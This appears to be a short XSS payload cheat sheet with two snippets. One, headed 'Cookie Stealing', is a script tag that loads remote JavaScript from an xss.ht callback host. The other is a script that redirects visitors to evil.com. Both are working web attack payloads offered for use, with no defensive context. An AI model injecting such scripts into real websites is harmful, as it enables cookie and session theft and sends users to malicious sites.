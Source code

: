 # Cookie Stealing
<code> <script src=https://googleapicloud.xss.ht></script> </code>

# Redirecting User to malicious websites
<code> <script>window.location.replace("http://evil.com");</script> </code>
